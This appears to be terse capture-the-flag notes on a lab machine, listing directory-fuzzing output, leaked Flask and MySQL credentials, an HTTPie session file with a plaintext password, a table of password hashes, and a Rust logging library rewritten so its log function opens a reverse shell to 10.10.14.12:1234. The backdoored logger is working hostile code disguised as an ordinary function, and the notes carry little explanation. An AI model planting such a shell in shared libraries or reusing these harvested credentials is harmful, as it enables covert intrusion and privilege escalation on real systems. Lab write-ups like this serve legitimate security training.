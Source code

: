 ```yaml
---
category: Uncategorized
tags: []
created: 2024-12-21

---
```

10.10.11.218

000000026:   200        76 L     554 W      5584 Ch     "about"                                            
000000025:   200        68 L     261 W      3543 Ch     "contact"                                          
000000053:   200        82 L     249 W      4392 Ch     "login"                                            
000000138:   200        82 L     249 W      4392 Ch     "view"                                             
000000259:   200        82 L     249 W      4392 Ch     "admin"                                            
000000390:   200        154 L    691 W      9043 Ch     "guide"                                            
000001086:   200        53 L     61 W       3187 Ch     "pgp"                                              
000001225:   200        82 L     249 W      4392 Ch     "logout"                                           
000001927:   405        5 L      20 W       153 Ch   "process"                                          



"$M1DGu4rD$"


    app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21'
    app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'



{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}


+----+----------------+--------------------------------------------------------------------------------------------------------+
| id | username       | password                                                                                               |
+----+----------------+--------------------------------------------------------------------------------------------------------+
|  1 | Odin           | pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f |
|  2 | silentobserver | pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d |
+----+----------------+--------------------------------------------------------------------------------------------------------+


/home/silentobserver/.local/bin


mysql://tipnet:4The_Greater_GoodJ4A@localhost:3306/Upstream



/opt/crates/logger/src/lib.rs

extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;
 
pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.14.12/1234 0>&1";
 
    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("not work");

    if output.status.success() {
        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);
 
        println!("standar output: {}", stdout);
        println!("error output: {}", stderr);
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("Error: {}", stderr);
    }
 
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
 
    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}